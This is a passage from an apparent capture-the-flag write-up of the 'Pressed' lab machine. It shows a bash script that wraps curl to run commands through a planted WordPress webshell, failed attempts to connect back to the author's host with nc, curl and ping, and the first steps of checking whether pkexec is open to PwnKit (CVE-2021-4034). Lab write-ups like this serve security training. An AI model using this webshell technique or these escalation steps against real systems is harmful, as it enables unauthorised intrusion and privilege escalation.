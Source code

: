 If I refresh that post, it looks the same. But if I add `?cmd=id` to the end:

![image-20220201083215460](https://0xdfimages.gitlab.io/img/image-20220201083215460.png)

### Script

I want a script to more easily interact with the webshell, so I’ll write a quick curl command and wrap that into a `bash` script to run easily:

```

#!/bin/bash

curl -d "cmd=$1" -s 'http://pressed.htb/index.php/2022/01/28/hello-world/' |
        awk '/<\/table>/{flag=1;next}/<p><\/p>/{flag=0}flag' |
        sed 's/&#8211;/--/g' | sed 's/&#8212;/---/g' |
        head -n -3

```

Here’s the [process for making that](https://www.youtube.com/watch?v=WmQFRNphbps):

## Shell as root

### Enumeration

#### Connectivity

When all my attempts to get a reverse shell failed, I turned back to just trying to connect back to my host from Pressed.

There doesn’t seem to be any way to connect back. `curl` and `nc` both just hang trying to connect back. Even `ping` failed:

```

oxdf@hacky$ ./webshell.sh 'ping -c 1 10.10.14.6'
PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
--- 10.10.14.6 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms

```

Looks like I’ll need to enumerate the box using the webshell.

#### PwnKit

I know that UHC likes to show off the current trending vulnerabilities, and [PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) (CVE-2021-4034) is certainly one of those. Unfortunately, when `pkexec` was patched for PwnKit, they didn’t change the version number, so there’s no way to tell from the version if it it patched or not. However, I can look at timestamps:

```

oxdf@hacky$ ./webshell.sh 'which pkexec'
/usr/bin/pkexec
oxdf@hacky$ ./webshell.sh 'ls -l /usr/bin/pkexec'
-rwsr-xr-x 1 root root 31032 Jul 14  2021 /usr/bin/pkexec

```
